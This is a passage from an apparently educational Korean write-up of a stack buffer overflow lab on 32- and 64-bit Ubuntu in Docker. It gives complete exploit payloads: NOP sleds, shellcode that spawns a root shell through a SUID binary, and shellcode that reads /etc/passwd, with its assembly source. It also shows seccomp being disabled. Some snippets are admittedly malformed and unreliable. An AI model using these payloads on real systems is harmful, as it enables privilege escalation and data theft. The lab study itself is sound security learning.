run $(python3 -c 'print("AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTTUUUUUUUUVVVVVVVVWWWWWWWWXXXXXXXXYYYYYYYYZZZZZZZZaaaaaaaabbbbbbbbccccccccddddddddeeeeeeeeffffffffggggggggABCDEFGHiiiiiiiiABCD")')
```


찾아냈다. 이는 offset 268 의 위치에(g 마지막 부분까지가 263) ecx 의 제어점이 된다는 소리이다. 이 이후에 ret 이전에 `*(ecx-4) = *(buffer+264)` 로 점프하게 됨을 알 수 있다.

다음과 같이 페이로드를 설계하면 된다:

```
offset 264 ~ 267 : 여기에 셸코드로 점프할 주소를 넣음 (★ ret의 점프 목적지가 됨)
offset 268 ~ 271 : 여기에 ecx 값을 넣음
offset 272 ~ 279 : NOP × 8 (패스 하도록)
offset 280 ~     : shellcode 본체
```

offset 268 에 본인 주소값 `(buf+268)` 을 넣어서 ecx 에는 `buf + 268` 이 들어가게 하고, 이후 `lea esp,[ecx-4]` 에 의해 esp 는 `buf + 264` 가 되고, ret 이 그 위치 `(buf+264)` 에 적혀있는 값을 EIP로 읽어간다. 그 자리에는 우리가 넣어둔 `buf + 276` 이 있으므로, EIP는 `buf + 276` 으로 점프하여 `NOP sled(\x90)` 를 미끄러져 내려와 셸코드를 실행하게 된다.

이제 여기다가 shell 를 넣기 위해 우리가 권한을 얻기 위한 코드를 크롬에서 검색해서 얻어보자. 크롬에서 다음 `ubuntu linux 32 bit shell code` 를 검색해서 권한 상승을 얻을 수 있는 코드를 얻을 수 있었다.

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

이제 이를 payload 에 잘 담아 실행하면 된다. 이때 x86 의 32 비트 운영체제는 Little Endian 을 사용하기 때문에 넣을 때는 32bit 마다 역순으로 넣어야 한다.

이를 위해 python 의 `struct` 패키지를 사용하자(아래 파이썬 코드는 문법적으로 맞지 않습니다.. 수정 후에 사용 부탁드립니다..).

```bash
run "$(python3 -c '
import sys, struct; \
buf = 0xffffd560; \
sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; \
p = b"\x90" * 264 + \
    struct.pack("<I", buf + 276) + \ # buffer 로부터 276 바이트 떨어진 위치 주소값
    struct.pack("<I", buf + 268) + \
    b"\x90" * 8 + sc; \
sys.stdout.buffer.write(p)' \
)"
```
> `sys.stdout.buffer.write`: "\n" 을 붙이지 않고 출력, 바이너리 그대로 출력  
> "<": 리틀엔디안으로  
> "I": unsigned int
> 아래는 예시이다:  
>  
> `struct.pack("<I", 0xffffd544)` → `b"\x44\xd5\xff\xff"`

위 설명은 다음과 같다:

| offset    | 내용                  | 역할                                |
|-----------|----------------------|------------------------------------|
| 0 ~ 263   | `\x90` × 264         | NOP sled                           |
| 264 ~ 267 | `buf + 276`          | *(ecx-4) 가 읽는 슬롯, eip 로 들어감   |
| 268 ~ 271 | `buf + 268`          | ecx 값 (lea esp, [ecx-4] 가 사용)     |
| 272 ~ 279 | `\x90` × 8           | NOP 여유 패딩                       |
| 280 ~ | shellcode            | execve("/bin/sh") 실제 코드        |

`buf + 276` 을 슬롯에 넣은 이유는 `ecx = buf + 268` 로 두면 `lea esp,[ecx-4]` 결과 `esp` 가 `buf + 264` 를 가리킨다. 이후 ret 은 `*(esp)` 를 EIP 로 점프시키므로, 슬롯`(buf+264) 에 적힌 값 = buf + 276` 이 EIP가 된다. `buf + 276` 은 NOP 영역이라 미끄러져 셸코드 `buf + 280` 에 도달한다.


실행했더니 다음과 같이 뜬다. 우리가 인자를 더 길게 써서 메모리 주소의 스택 시작 위치가 재조정 된 것이다. 인자 `argv[1]` 의 길이가 달라지면 그 위에 있는 환경변수 영역의 위치도 밀리고, 결국 buffer가 자리잡는 위치도 미세하게 바뀌게 된다.

해결하기 위한 핵심은 `0x8953e289`의 출력 결과다. 점프했던 addr. 가 `0x8953e289` 를 가르킨 것이다. 이는 공교롭게도 `sc` 변수에 선언했던 `\x89\xe2\x53\x89` 해당 위치에 있음을 알 수 있다.

그래서 `buf` 값을 조정해서 `0xffffd540` 으로 맞춰주자.

(아래 파이썬 코드는 문법적으로 맞지 않습니다.. 수정 후에 사용 부탁드립니다..)

```bash
run "$(python3 -c 'import sys,struct; buf=0xffffd540; \

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; \

p = b"\x90" * 264 + \
    struct.pack("<I", buf + 276) + \
    struct.pack("<I", buf + 268) + \
    b"\x90" * 8 + sc;

sys.stdout.buffer.write(p)')"
```



위와 같이 권한이 높은 쉘에 접속한 것을 볼 수 있다.

```bash
whoami
```

위 코드를 쳐보자.



바이너리에 SUID 비트가 설정되어 있어, execve("/bin/sh") 호출 시 소유자 권한의 셸이 실행되며 권한 탈취가 발생하며 원래 설정했던 user(seonghun...) 가 안나오고 권한 탈취에 성공한 것을 볼 수 있다.

---

## x86 64 bit Ubuntu Buffer Overflow

### Docker Environment Setting

```bash
sudo docker compose up -d

sudo docker exec -it ubuntu_x86_64 /bin/bash
```

위 명령어를 통해 이제 64 bit 운영체제로 들어가주자.

### gdb executing

마찬가지로 buffer overflow 를 위한 디버깅을 해주자.


`strcpy` 이후까지 실행한 결과다.


leave 명령문이 끝난 이후에 rsp 가 가르키고 있는 곳은 `0xffff ffff e518` 이고, 해당 주소의 값에는 우리가 overflow 했던 `0x414141414141` 이 저장되어 있다(어느 위치인지는 모른다). 물론 여기서 32 bit 때처럼 문자열을 바꿔가면서 위치를 찾아도 되지만 이번에는 계산을 해보자.

strcpy 를 실행한 이후에는 rsp 가 가르키는 곳은 `e400` 의 위치였다. leave 이후에 rsp 는 `e518` 이 되었다. 이 말은 즉, 우리가 strcpy 의 스택프레임에 프레임 포인터와 main 의 스택프레임에 프레임 포인터 차이가 `0x118` 의 차이가 난다는 소리이다. 그렇다면 그 사이에는 `char buffer[256]` 의 공간이 있을 것이다. `0x118` 은 280 bit 이다(32 비트 때랑 똑같다).

### Overflow Return Address

따라서 280 개의 character 를 넣으면 saved rsp 까지 채울 수 있을 것이며, 바로 위에는 ret addr. 가 자리잡고 있을 것이다. 이를 overflow 하기 위해 다음 명령어를 쳐보자.

```bash
run $(python3 -c 'print("A" * 280 + "B" * 6)')
```

6개로 한 이유는 주소 체계가 32 비트 보다 더 길기 때문에 어느 정도 user space 에 접근할 수 있을 정도의 return address 를 주기 위해 꽉 채우진 않았다. 일단 실험삼아 실행시켜보자.


leave instruction 후이다. strcpy 명령을 완전히 빠져나와 main 으로 돌아간 시점이며, `e538` 에 우리가 썼던 "BBBBBB" 가 있음을 볼 수 있다.

하지만 rsp 가 `e528` 을 가르키고 있어 0x0000424242424242 를 참조하지 않음을 볼 수 있다. 우리가 `argv` 에 인자를 넣을 때 조금 길어져서 stack frame 의 시작 위치가 재조정되며 조금 밀려난 듯하다. 이를 맞춰주기 위해 "A" 를 16개 빼주자.


이제 맞춰졌다. 여기서 stepi 를 통해 ret 를 해보자.


instruction pointer register 가 우리가 원하던 주소로 바뀐 것을 볼 수 있다. 이제 여기에 우리가 점프할 주소를 넣어 거기서부터 exploit payload 를 넣으면 된다.

여기서는 점프할 주소를 보기 위해 우선 여러 개의 "A" 가 어느 주소에 분포하고 있는지 살펴보자.

### Finding Jump Address

```bash
run $(python3 -c 'print("A" * 300)')
```

위 명령어를 실행하여 strcpy를 완전히 실행한 후에 $rsp 를 출력해보자.

```bash
x/200xg $rsp
```


딱 중간쯤에 넣어두면 넉넉히 exploit 을 할 수 있을 듯하지만, 필자는 맨 처음인 `e410` 에 넣으려고 한다.

다음 jump address exploit code 를 넣어서 실행해준다.

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 264 + b"\x7f\xff\xff\xff\xe4\x10"[::-1])')"
```


rsi 에 잘 들어갔다. 이제 exploit payload 를 넣자.

### Exploit Payload

exploit payload 는 참고 문서에 주신 기계어로 수행하자.

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x8\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

총 82 bytes 이므로 "A" 가 들어가는 자리에 82 bytes 만큼 빼주고 이를 넣어주자.

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + b"A" * 182 + b"\x7f\xff\xff\xff\xe4\x10"[::-1])')"
```

이제 실행시켜보자.

### Trouble Shooting


return 이후에 주소를 보니 `e438` 부터 시작됨을 알 수 있다. 이는 argv 가 길어져서 stack 시작지점이 조정된 듯하다. 다시 바꿔주자.

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + b"A" * 182 + b"\x7f\xff\xff\xff\xe4\x38"[::-1])')"
```


이제 제대로 실행될 줄 알았는데 또 다른 벽이 있었다.

### Trouble Shooting - File Not Found

계속 실행하다 보면 다음을 마주쳤다.


rax 가 -2 로 세팅되는 것을 볼 수 있는데, `/etc/passwd` 라는 파일이 없어서 생긴 오류인 듯하다. 그래서 터미널에서 /etc/passwd 가 있는지 살펴보았다.


위 그림에서는 있는 듯하다. 하지만 이를 읽어들일 수 없는 상태인거 같다.

검색해보니 Docker 에는 seccomp 기능이 있는데, 'Secure Computing Mode' 의 약자로,  
프로세스가 리눅스 커널에 요청할 수 있는 시스템 콜을 제한하여 컨테이너를 안전하게 격리하는 리눅스 커널 보안 기능이라고 한다.

따라서 이를 실행할 때 끄고 들어가게 docker compose 를 수정한다.

```bash
security_opt:
  - seccomp=unconfined
```

실행 후에 다시 보니 또 시작지점이 바뀐 듯하다.


다시 조정해주자.. 0f f6 31 48 은 12 byte 뒤의 주소로 잡혔다. `\90` 을 넉넉히 넣고 실행이 되게 해주자.

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90" * 32 + b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + b"A" * 150 + b"\x7f\xff\xff\xff\xe4\x38"[::-1])')"
```


nop 영역으로 들어왔다. 하지만

  

위처럼 실패했다. 어셈블리어를 해당 컴퓨터에서 다시 nasm 으로 컴파일하여 기계어를 뽑아내자

```bash
apt update
apt install -y nasm binutils
```

```bash
cat > readfile.asm << 'EOF'
BITS 64
; Author Mr.Un1k0d3r - RingZer0 Team
; Read /etc/passwd Linux x86_64 Shellcode
global _start
section .text
_start:
jmp _push_filename
_readfile:
    ; syscall open file
    pop rdi             ; pop path value
    xor byte [rdi + 11], 0x41    ; NULL byte fix ('A' -> \0)
    xor rax, rax
    add al, 2           ; sys_open = 2
    xor rsi, rsi        ; O_RDONLY = 0
    syscall

    ; syscall read file
    sub sp, 0xfff
    lea rsi, [rsp]
    mov rdi, rax        ; fd
    xor rdx, rdx
    mov dx, 0xfff       ; size to read
    xor rax, rax        ; sys_read = 0
    syscall

    ; syscall write to stdout
    xor rdi, rdi
    add dil, 1          ; stdout fd = 1
    mov rdx, rax        ; bytes read
    xor rax, rax
    add al, 1           ; sys_write = 1
    syscall

    ; syscall exit
    xor rax, rax
    add al, 60          ; sys_exit = 60
    syscall

_push_filename:
    call _readfile
    path: db "/etc/passwdA"
EOF
```

```bash
nasm -f elf64 readfile.asm -o readfile.o

for i in $(objdump -d readfile.o | grep "^ " | cut -f2); do 
    printf '\\x%s' $i
done
echo
```

```bash
# 길이 확인
objcopy -O binary -j .text readfile.o readfile.bin
wc -c readfile.bin
```

82 bytes 를 다시 run 에 exploit payload 로 넣는다.

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90" * 32 + b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + b"A" * 150 + b"\x7f\xff\xff\xff\xe4\x38"[::-1])')"
```

이제 실행 후 stepi 로 천천히 실행시켜보자.


성공한 것을 볼 수 있다.